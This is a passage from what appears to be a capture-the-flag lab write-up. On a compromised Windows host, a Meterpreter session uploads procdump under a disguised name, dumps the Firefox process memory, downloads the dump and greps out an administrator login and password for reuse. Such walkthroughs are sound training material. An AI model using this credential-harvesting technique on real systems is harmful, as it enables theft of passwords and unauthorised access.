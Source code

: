     elapsed time = 0.0

We did not found any password in the browser's password storage. Let us see what
is the process memory.

## procdump

We upload procdump.exe from
[Systinternals](https://docs.microsoft.com/en-us/sysinternals/) and dump the
Firefox process memory before downloading the dump on our machine.

    :::text
    meterpreter > upload procdump.exe 06.exe
    [*] uploading  : procdump.exe -> 06.exe
    [*] Uploaded 467.19 KiB of 467.19 KiB (100.0%): procdump.exe -> 06.exe
    [*] uploaded   : procdump.exe -> 06.exe

    C:\Users\Chase\Documents>.\06.exe -ma 6228
    .\06.exe -ma 6228

    ProcDump v6.00 - Writes process dump files
    Copyright (C) 2009-2013 Mark Russinovich
    Sysinternals - www.sysinternals.com
    With contributions from Andrew Richards

    Writing dump file C:\Users\Chase\Documents\firefox_191106_223459.dmp ...
    Writing 293MB. Estimated time (less than) 9 seconds.
    Dump written.

    meterpreter > download firefox_191106_223459.dmp ./
    [*] Downloading: firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 1.00 MiB of 286.62 MiB (0.35%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 2.00 MiB of 286.62 MiB (0.7%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 3.00 MiB of 286.62 MiB (1.05%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 4.00 MiB of 286.62 MiB (1.4%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp
    [*] Downloaded 5.00 MiB of 286.62 MiB (1.74%): firefox_191106_223459.dmp -> .//firefox_191106_223459.dmp

We then grep in the dump for some password.

    :::text
    strings firefox_191106_223459.dmp | grep -i password | grep admin -i
    MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
    MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=

We can then use the login and password either to connect to the support website
or to the server using the `administrator` account.
